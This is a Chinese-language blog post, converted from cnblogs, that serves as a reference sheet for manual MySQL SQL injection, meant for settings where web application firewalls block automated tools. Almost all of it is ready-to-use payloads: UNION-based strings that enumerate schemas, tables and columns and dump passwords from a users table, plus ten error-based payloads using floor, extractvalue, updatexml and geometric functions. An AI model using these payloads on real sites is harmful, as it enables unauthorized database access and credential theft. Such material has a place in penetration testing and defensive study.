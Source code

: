 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/-mo-/p/12730682.html)

虽说目前互联网上已经有很多关于 sql 注入的神器了，但是在这个 WAF 横行的时代，手工注入往往在一些真实环境中会显得尤为重要。本文主要把以前学过的知识做个总结，不会有详细的知识解读，类似于查询手册的形式，便于以后的复习与查阅，文中内容可能会存在错误，望师傅们斧正！

0x01 Mysql 手工注入
---------------

### 1.1 联合注入

```
?id=1' order by 4--+
?id=0' union select 1,2,3,database()--+
?id=0' union select 1,2,3,group\_concat(table\_name) from information\_schema.tables where table\_schema=database() --+
?id=0' union select 1,2,3,group\_concat(column\_name) from information\_schema.columns where table\_ --+
#group\_concat(column\_name) 可替换为 unhex(Hex(cast(column\_name+as+char)))column\_name

?id=0' union select 1,2,3,group\_concat(password) from users --+
#group\_concat 可替换为 concat\_ws(',',id,users,password )

?id=0' union select 1,2,3,password from users limit 0,1--+


```

### 1.2 报错注入

```
1.floor()
select \* from test where id=1 and (select 1 from (select count(\*),concat(user(),floor(rand(0)\*2))x from information\_schema.tables group by x)a);

2.extractvalue()
select \* from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

3.updatexml()
select \* from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

4.geometrycollection()
select \* from test where id=1 and geometrycollection((select \* from(select \* from(select user())a)b));

5.multipoint()
select \* from test where id=1 and multipoint((select \* from(select \* from(select user())a)b));

6.polygon()
select \* from test where id=1 and polygon((select \* from(select \* from(select user())a)b));

7.multipolygon()
select \* from test where id=1 and multipolygon((select \* from(select \* from(select user())a)b));

8.linestring()
select \* from test where id=1 and linestring((select \* from(select \* from(select user())a)b));

9.multilinestring()
select \* from test where id=1 and multilinestring((select \* from(select \* from(select user())a)b));

10.exp()
select \* from test where id=1 and exp(~(select \* from(select user())a));


```